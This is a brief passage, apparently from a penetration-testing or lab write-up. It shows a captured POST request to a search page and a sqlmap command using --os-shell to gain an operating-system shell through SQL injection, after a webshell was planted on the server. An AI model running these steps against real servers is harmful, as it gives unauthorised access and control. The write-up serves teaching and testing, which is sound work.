 As we have added a webshell into the server we can use sql map with --os-shell to automate it.

First we intercept the POST request with Burp:
```
POST /search.php HTTP/1.1

...

item=test
```
Ans we add it as a parameter to SQLMap
```
kali@kali:~$ sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
And we get a shell